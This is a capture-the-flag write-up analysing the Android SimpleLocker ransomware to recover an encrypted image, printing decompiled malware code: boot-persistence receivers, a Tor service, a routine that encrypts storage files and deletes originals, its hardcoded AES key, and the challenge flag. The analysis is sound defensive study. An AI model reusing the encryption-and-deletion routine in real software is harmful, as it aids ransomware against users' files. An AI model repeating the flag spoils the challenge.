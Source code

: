 # Ransomware Android
https://www.root-me.org/en/Challenges/Forensic/Ransomware-Android
```
The CISO Android tablet has been compromised by a ransomware, his confidential documents were encrypted. It is, of course, no question for us to pay the ransom, we would lose all our credibility. 
You have a part dump of his tablet and must restore these documents.
```

As the description mentioned, the ZIP file contains a dump of an Android file-system.<br>
In the _/app/_ directory there is only 1 APK (org.simplelocker-1.apk), in the _/app-lib/_ directory there is only 1 sub-directory (org.simplelocker-1) with 4 libraries (libobfsproxy.so, libprivoxy.so, libtor.so and libxtables.so), and the _/app-asec/_ and the _/app-private/_ are empty.<br>
The libraries' names are pretty suspicious. So identifing **org.simplelocker-1.apk** as the ransomeware is a pretty good guess.<br>
In this challenge, one or more documents had been encrypted. After a quick search, it seems like the only (important) file that suppose to be recovered is _/media/Documents/Confidentiel.jpg.enc_.<br><br>

After decompile the APK, the following AndroidManifest.xml was found:
```xml
<?xml version="1.0" encoding="utf-8" standalone="no"?><manifest xmlns:android="http://schemas.android.com/apk/res/android" android:installLocation="auto" package="org.simplelocker">
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE"/>
    <uses-permission android:name="android.permission.READ_PHONE_STATE"/>
    <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>
    <uses-permission android:name="android.permission.WAKE_LOCK"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <application android:allowBackup="false" android:debuggable="true" android:label="@string/app_name">
        <activity android:launchMode="singleTop" android:name=".Main" android:theme="@style/AppTheme">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <receiver android:enabled="true" android:exported="true" android:name=".ServiceStarter">
            <intent-filter>
                <action android:name="android.intent.action.BOOT_COMPLETED"/>
            </intent-filter>
        </receiver>
        <receiver android:enabled="true" android:exported="true" android:name=".SDCardServiceStarter">
            <intent-filter>
                <action android:name="android.intent.action.ACTION_EXTERNAL_APPLICATIONS_AVAILABLE"/>
            </intent-filter>
        </receiver>
        <service android:name=".MainService"/>
        <service android:enabled="true" android:exported="false" android:name="org.torproject.android.service.TorService">
            <intent-filter>
                <action android:name="org.torproject.android.service.ITorService"/>
                <action android:name="org.torproject.android.service.TOR_SERVICE"/>
            </intent-filter>
        </service>
    </application>
</manifest>
```

According to the manifest, there are 4 enabled services and 1 activity:
<ol>
  <li><b>.Main</b> activity, which is the application's launcher.</li>
  <li><b>.ServiceStarter</b>, which recieves an intent when the boot is completed (probably for starting).</li>
  <li><b>.SDCardServiceStarter</b>, which recieves the intent <i>ACTION_EXTERNAL_APPLICATIONS_AVAILABLE</i> which getting broadcast soon after the boot is completed (probably for starting the service).</li>
  <li><b>.MainService</b>.</li>
  <li><b>org.torproject.android.service.TorService</b>, which recieves intents from a TOR service.</li>
</ol><br>

The <b>.Main</b> activity seems to display something (not important), and it sends an intent (com.locker.MainServiceStart) to start the <b>.MainService</b>.<br>
The <b>.ServiceStarter</b> and the <b>.SDCardServiceStarter</b> services are pretty much the same - both send an intent (com.locker.MainServiceStart) to start the <b>.MainService</b>. Probably in order to keep the persistence of the ransomware after a reboot.<br>
The <b>org.torproject.android.service.TorService</b> is a known library. As the name implies, the service is used to communicate with a remote entity (in this APK the entity is 127.0.0.1:9050).<br><br>

So that leaves the <b>.MainService</b>.<br>
This service does bunch of stuff - communicate with a remote entity using TOR proxy, sets a _WakeLock_, schedule tasks and more. Because the APK is a ransomware, and because the challenge is to find an encrypted password, the following class seems interesting:<br>
```java
class C01165 implements Runnable {
    C01165() {
    }

    public void run() {
        try {
            new FilesEncryptor(MainService.this.context).encrypt();
        } catch (Exception e) {
            Log.d(Constants.DEBUG_TAG, "Error: " + e.getMessage());
        }
    }
}
```
A new object is initiated (FilesEncryptor) with the current context and the **encrypt** function is call.<br>
This is the **encrypt** function in the FilesEncryptor class:
```java
public void encrypt() throws Exception {
    if (!this.settings.getBoolean(Constants.FILES_WAS_ENCRYPTED, false) && isExternalStorageWritable()) {
        AesCrypt aes = new AesCrypt(Constants.CIPHER_PASSWORD);
        Iterator it = this.filesToEncrypt.iterator();
        while (it.hasNext()) {
            String fileName = (String) it.next();
            aes.encrypt(fileName, new StringBuilder(String.valueOf(fileName)).append(".enc").toString());
            new File(fileName).delete();
        }
        Utils.putBooleanValue(this.settings, Constants.FILES_WAS_ENCRYPTED, true);
    }
}
```
It's pretty easy to understand what's up.<br>
First, the function checks if the files are already encrypted (in order to not encrypt it twice) and if it's possible to change the data in the external storage.<br>
Then, an AES encryption instance is created (**AesCrypt**) with a key that presents in the **Constants** class.<br>
Afterward, it will iterate the files in the external storage and call the _encrypt_ function of the initiated **AesCrypt** object, and will delete the original file.<br>
Lastly, it will sets a boolean variable to ```true```, so the files won't get encrypted twice.<br><br>

According to the **Constants** class:
```java
...snip...
public static final String CIPHER_PASSWORD = "mcsTnTld1dDn";
...snip...
```
So the key is now known, let's see what's up at the **AesCrypt** class:
```java
...snip...
public AesCrypt(String password) throws Exception {
    MessageDigest digest = MessageDigest.getInstance("SHA-256");
    digest.update(password.getBytes(HTTP.UTF_8));
    byte[] keyBytes = new byte[32];
    System.arraycopy(digest.digest(), 0, keyBytes, 0, keyBytes.length);
    this.key = new SecretKeySpec(keyBytes, "AES");
    this.spec = getIV();
}

public AlgorithmParameterSpec getIV() {
    return new IvParameterSpec(new byte[16]);
}
    
public void encrypt(String rawFile, String encryptedFile) throws Exception {
    FileInputStream fis = new FileInputStream(rawFile);
    FileOutputStream fos = new FileOutputStream(encryptedFile);
    this.cipher.init(1, this.key, this.spec);
    CipherOutputStream cos = new CipherOutputStream(fos, this.cipher);
    byte[] d = new byte[8];
    while (true) {
        int b = fis.read(d);
        if (b == -1) {
            cos.flush();
            cos.close();
            fis.close();
            return;
        }
        cos.write(d, 0, b);
    }
}

public void decrypt(String encryptedFile, String rawFile) throws Exception {
    FileInputStream fis = new FileInputStream(encryptedFile);
    FileOutputStream fos = new FileOutputStream(rawFile);
    this.cipher.init(2, this.key, this.spec);
    CipherInputStream cis = new CipherInputStream(fis, this.cipher);
    byte[] d = new byte[8];
    while (true) {
        int b = cis.read(d);
        if (b == -1) {
            fos.flush();
            fos.close();
            cis.close();
            return;
        }
        fos.write(d, 0, b);
    }
}
```
Let's break it down a bit.<br>
First, in the constructor of the class a IV (which is an 16 zeros according to **getIV**) and akey generated from the given password (which we know already). The password seems to be a SHA-256 of the "mcsTnTld1dDn" - which is **d49af309a4c69382ff07bc6f83ba4c2595a7f086d3e5b69e119e2337cb75172d**.<br><br>

After we got the key and IV, we can decrypt the file. Fortunately, the **decrypt** function exists.<br>
So after copying the class to a new Java project, creating an instance (with "mcsTnTld1dDn") and running the **decrypt** function, it seems like an image was created.

In the end, the flag is **BullShitR4ns0mW4re**
